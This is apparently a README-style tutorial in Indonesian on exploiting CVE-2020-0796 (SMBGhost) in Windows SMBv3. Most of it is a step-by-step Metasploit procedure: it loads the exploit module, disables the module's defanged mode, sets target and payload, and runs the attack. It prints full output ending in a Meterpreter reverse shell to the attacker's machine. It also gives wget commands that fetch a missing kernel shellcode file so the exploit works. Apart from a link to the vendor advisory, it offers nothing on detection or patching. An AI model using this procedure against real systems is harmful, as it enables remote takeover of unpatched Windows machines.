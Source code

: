 # CVE-2020-0796

## A. Apa itu CVE-2020-0796?

[CVE-2020-0796](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796), juga dikenal sebagai SMBGhost, adalah kerentanan Remote Code Execution (RCE) dalam `SMBv3` (Server Message Block versi 3) yang ditemukan pada Windows 10 dan Windows Server versi `1903` dan `1909`.

Kerentanan ini memungkinkan penyerang jarak jauh untuk mengeksekusi kode arbitrer pada sistem target hanya dengan mengirimkan paket `SMBv3` yang dibuat khusus. Dalam kondisi tertentu, kerentanan ini juga bisa dimanfaatkan untuk Local Privilege Escalation (LPE).

## B. Detail Teknis:
- CVE ID: `CVE-2020-0796`
- Tanggal Rilis: `10 Maret 2020`
- Tipe: Remote Code Execution (RCE) + Local Privilege Escalation (LPE)
- Protokol: `SMBv3`
- Komponen: `srv2.sys`
- Platform: `Windows 10` / `Server 1903` & `1909`
- Arsitektur: `x86` dan `x64`
- Skor CVSS: `10.0` (Kritis)

## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `CVE-2020-0796`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796)

## D. Langkah Penggunaan di Metasploit:

1. Jalankan Metasploit:

   ```
   msfconsole
   ```

2. Gunakan Modul Exploit CVE-2020-0796:

   ```
   msf6 > use exploit/windows/smb/cve_2020_0796_smbghost
   ```

3. Setting Parameter Penting:

   ```
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set RHOSTS <IP_TARGET>
   msf6 > set RPORT 445
   msf6 > set DefangedMode false
   msf6 > set TARGET <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```
   
4. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] Started reverse TCP handler on 192.168.1.42:4444 
   [*] 192.168.1.51:445 - Running automatic check ("set AutoCheck false" to disable)
   [!] 192.168.1.51:445 - The service is running, but could not be validated.
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000013000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000002000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000003000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000004000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000005000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000006000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000007000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000008000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000009000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000a000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000b000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000c000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000d000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000e000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000f000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000010000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000011000
   [*] 192.168.1.51:445 - Found low stub at physical address 0x0000000000011000, virtual address 0xfffff79e8000e000
   [*] 192.168.1.51:445 - Found PML4 at 0x00000000001aa000 (BIOS)
   [*] 192.168.1.51:445 - Found HAL heap at 0xfffff79e80000000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aa000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aa200
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aa400
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aa600
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aa800
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aaa00
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aac00
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aae00
   [*] 192.168.1.51:445 - Found PML4 self-reference entry at 0x01c9
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aaf78
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000041003d0
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004103000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004104000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001200
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001400
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001600
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001800
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001a00
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001c00
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001e00
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004104008
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000005200
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000005400
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000000054c0
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aaf80
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004308068
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004309210
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000255ebb0
   [*] 192.168.1.51:445 - Found hal!HalpInterruptController at 0xfffff79e80001448
   [*] 192.168.1.51:445 - Found hal!HalpApicRequestInterrupt at 0xfffff8034855ebb0
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aae48
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004100000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004101000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004102000
   [*] 192.168.1.51:445 - KUSER_SHARED_DATA PTE NX bit cleared!
   [*] 192.168.1.51:445 - Transferring 1274 bytes of shellcode...
   [*] 192.168.1.51:445 - Transfer complete, hooking hal!HalpApicRequestInterrupt to trigger execution...
   [*] Sending stage (203846 bytes) to 192.168.1.51
   [*] Meterpreter session 26 opened (192.168.1.42:4444 -> 192.168.1.51:49672) at 2025-05-14 22:17:01 +0700
   [*] 192.168.1.51:445 - Restoring the KUSER_SHARED_DATA PTE NX bit...
   [*] 192.168.1.51:445 - Cleaning up the contents of KUSER_SHARED_DATA...

   meterpreter > 
   ```

   Itu artinya kita sudah berhasil mengeksploitasi mesin terget.

## Tips Tambahan

Jika pada saat proses eksplotasi muncul error seperti ini:

```
[-] 192.168.1.51:445 - Exploit failed: Errno::ENOENT No such file or directory @ rb_sysopen - /usr/share/metasploit-framework/external/source/exploits/CVE-2020-0796/RCE/kernel_shellcode.asm
[*] 192.168.1.51:445 - Restoring the KUSER_SHARED_DATA PTE NX bit...
[*] 192.168.1.51:445 - Cleaning up the contents of KUSER_SHARED_DATA...
[*] Exploit completed, but no session was created.
msf6 exploit(windows/smb/cve_2020_0796_smbghost) >
```

Itu artinya file `kernel_shellcode.asm` tidak ada di direktori `/usr/share/metasploit-framework/external/source/exploits/CVE-2020-0796/RCE/`.

Untuk mengatasi error itu ketikkan perintah ini:

```
cd /usr/share/metasploit-framework
mkdir -p external/source/exploits/CVE-2020-0796/RCE/
cd external/source/exploits/CVE-2020-0796/RCE/
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/refs/heads/master/external/source/exploits/CVE-2020-0796/RCE/kernel_shellcode.asm
```

Jika sudah jalankan exploit lagi:

```
exploit
```

Video demonstrasinya dapat ditonton di sini: [](https://youtu.be/Bt8aMVDvTFY?si=tJkfrwdYtzdmUasQ)
